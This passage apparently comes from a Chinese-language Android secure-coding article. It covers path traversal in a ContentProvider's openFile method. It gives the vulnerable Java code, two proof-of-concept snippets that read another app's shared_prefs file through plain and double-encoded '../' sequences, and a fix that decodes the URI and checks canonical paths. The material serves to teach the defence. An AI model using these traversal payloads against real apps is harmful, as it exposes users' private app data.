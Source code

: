 ```
private static String IMAGE_DIRECTORY = localFile.getAbsolutePath();
public ParcelFileDescriptor openFile(Uri paramUri, String paramString)
    throws FileNotFoundException {
    File file = new File(IMAGE_DIRECTORY, Uri.parse(paramUri.getLastPathSegment()).getLastPathSegment());
    return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
} 
```

POC1：

```
String target = "content://com.example.android.sdk.imageprovider/data/" + "..%2F..%2F..%2Fdata%2Fdata%2Fcom.example.android.app%2Fshared_prefs%2FExample.xml";

ContentResolver cr = this.getContentResolver();
FileInputStream fis = (FileInputStream)cr.openInputStream(Uri.parse(target));

byte[] buff = new byte[fis.available()];
in.read(buff); 
```

POC2：double encode

```
String target = "content://com.example.android.sdk.imageprovider/data/" +
"%252E%252E%252F%252E%252E%252F%252E%252E%252Fdata%252Fdata%252Fcom.example.android.app%252Fshared_prefs%252FExample.xml";

ContentResolver cr = this.getContentResolver();
FileInputStream fis = (FileInputStream)cr.openInputStream(Uri.parse(target));

byte[] buff = new byte[fis.available()];
in.read(buff); 
```

解决方法Uri.decode()

```
private static String IMAGE_DIRECTORY = localFile.getAbsolutePath();
  public ParcelFileDescriptor openFile(Uri paramUri, String paramString)
      throws FileNotFoundException {
    String decodedUriString = Uri.decode(paramUri.toString());
    File file = new File(IMAGE_DIRECTORY, Uri.parse(decodedUriString).getLastPathSegment());
    if (file.getCanonicalPath().indexOf(localFile.getCanonicalPath()) != 0) {
      throw new IllegalArgumentException();
    }
    return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
  } 
```

## 0x06 参考

[https://www.securecoding.cert.org/confluence/pages/viewpage.action?pageId=111509535](https://www.securecoding.cert.org/confluence/pages/viewpage.action?pageId=111509535)
[http://www.jssec.org/dl/android_securecoding_en.pdf](http://www.jssec.org/dl/android_securecoding_en.pdf)
[http://developer.android.com/intl/zh-cn/reference/android/content/ContentProvider.html](http://developer.android.com/intl/zh-cn/reference/android/content/ContentProvider.html)